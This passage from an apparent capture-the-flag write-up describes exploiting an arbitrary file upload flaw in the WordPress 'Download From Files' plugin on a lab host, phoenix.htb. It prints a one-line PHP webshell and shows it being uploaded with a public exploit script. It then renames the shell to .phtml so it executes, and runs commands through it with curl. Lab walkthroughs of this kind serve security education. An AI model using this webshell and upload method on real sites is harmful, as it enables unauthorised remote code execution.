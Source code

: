 It also says to use a shell ending in `.php4` or `.phtml`. I’ll grab a simple webshell and save it as `cmd.php4`:

```

<?php system($_REQUEST['cmd']); ?>

```

When I run `python download_upload.py https://phoenix.htb cmd.php4`, it crashes out with all kinds of SSL/TLS errors. I’ll add `verify=False` to each of the `requests` calls to ignore the self-signed certificate. I’ll also add the following at the top just under the imports:

```

import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

```

This disable warnings line isn’t necessary, but hides some annoying errors.

When I run it, it works:

```

oxdf@hacky$ python download_upload.py https://phoenix.htb cmd.php4 
Download From Files <= 1.48 - Arbitrary File Upload
Author -> spacehen (www.github.com/spacehen)
Uploading Shell...
Shell Uploaded!
https://phoenix.htb/wp-admin/cmd.php4

```

The webshell doesn’t execute:

```

oxdf@hacky$ curl -k https://phoenix.htb/wp-admin/cmd.php4?cmd=id
<?php system($_REQUEST['cmd']); ?>

```

The server is not processing `.php4` files as PHP. I’ll rename the shell to `.phtml` and try again:

```

oxdf@hacky$ python download_upload.py https://phoenix.htb cmd.phtml 
Download From Files <= 1.48 - Arbitrary File Upload
Author -> spacehen (www.github.com/spacehen)
Uploading Shell...
Shell Uploaded!
https://phoenix.htb/wp-admin/cmd.phtml
oxdf@hacky$ curl -k https://phoenix.htb/wp-admin/cmd.phtml?cmd=id
uid=1001(wp_user) gid=1001(wp_user) groups=1001(wp_user)

```
